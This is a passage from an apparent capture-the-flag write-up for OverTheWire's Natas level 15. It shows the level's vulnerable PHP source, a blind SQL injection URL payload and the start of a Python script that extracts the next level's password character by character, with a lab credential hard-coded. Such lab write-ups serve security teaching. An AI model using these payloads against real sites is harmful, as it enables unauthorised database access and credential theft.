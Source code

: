 ```php+HTML
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

It's too an SQL injection but here we can only check the existence of a user. Checking the username "natas16" gave that the user exists

Now we have to find the Password. Giving in the url 

```
http://natas15.natas.labs.overthewire.org/index.php?username=natas16" and (ord(substr(password ,1,1))=1);--+
```

will help us find the first character of the password. Since we can't do it by hand I mad a python script to do that for me

```python
import requests

leng1='natas16" and (length(password)={0}) --+'
pass1='natas16" and (ord(substr(password ,{0},1))={1});--+'

url = "http://natas15.natas.labs.overthewire.org/index.php?username="
session = requests.Session()
some=requests.get(url,auth=requests.auth.HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')).text
print("Some :",some)
success = requests.get(url+"natas16",auth=requests.auth.HTTPBasicAuth('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')).text
print("Success :",success)
number_of_request = 0
leng=0
for i in range(0,100):
    load = leng1.format(i)
```
